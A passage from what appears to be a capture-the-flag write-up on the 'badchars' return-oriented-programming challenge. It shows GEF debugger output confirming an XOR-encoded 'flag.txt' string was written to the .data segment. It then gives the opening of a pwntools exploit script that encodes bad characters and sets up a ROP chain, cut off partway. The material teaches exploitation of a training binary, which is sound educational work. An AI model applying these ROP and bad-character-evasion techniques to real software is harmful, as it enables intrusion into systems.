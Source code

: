 ```
 →   0x400638 <usefulGadgets+16> ret    
   ↳  0x7effcbfab70a <init_cacheinfo+90> jl     0x7effcbfab725 <init_cacheinfo+117>
      0x7effcbfab70c <init_cacheinfo+92> add    BYTE PTR [rbp+0x30], al
      0x7effcbfab70f <init_cacheinfo+95> in     al, 0x48
      0x7effcbfab711 <init_cacheinfo+97> sar    eax, 1
      0x7effcbfab713 <init_cacheinfo+99> mov    QWORD PTR [rip+0x197c0e], r12        # 0x7effcc143328 <__x86_data_cache_size>
      0x7effcbfab71a <init_cacheinfo+106> mov    QWORD PTR [rip+0x197bff], rax        # 0x7effcc143320 <__x86_raw_data_cache_size_half>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "badchars", stopped 0x400638 in usefulGadgets (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400638 → usefulGadgets()
[#1] 0x7effcbfab70a → init_cacheinfo()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/2xg 0x0000000000601029
0x601029:       0x74e874bef7f16c66      0x0000000000000000
gef➤  x/s $r13
0x601029:       "fl\361\367\276t\350t"
```

Success! We have successfully written the encoded `flag.txt` target to the `.data` segment!

## Decoding the Target

At this point, we need decode the `flag.txt` payload at the `.data` segment and invoke `print_file` with the `.data` segment as its first argument.
We will only decode the bad characters to keep the size of our ROP chain small.

We update the `encode_badchars` function to include the offsets at which bad characters are located.
If you further analyze my algorithm, I recommend setting breakpoints at the ROP gadgets of interest and observe changes to memory in GDB.

```python
from pwn import *

def encode_badchars(data, badchars, key):
    result = b""
    encoded_byte_offsets = []
    for idx, b in enumerate(data):
        if b in badchars:
            result += bytes([b ^ ord(key)])
            encoded_byte_offsets.append(idx)
            continue
        result += bytes([b])
    return result, encoded_byte_offsets

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './badchars'
io = process(PROCESS)

# Initialize ROP
rop = ROP(io.elf)

# Gadgets
writable_data_segment = 0x00601029                         # .data segment
```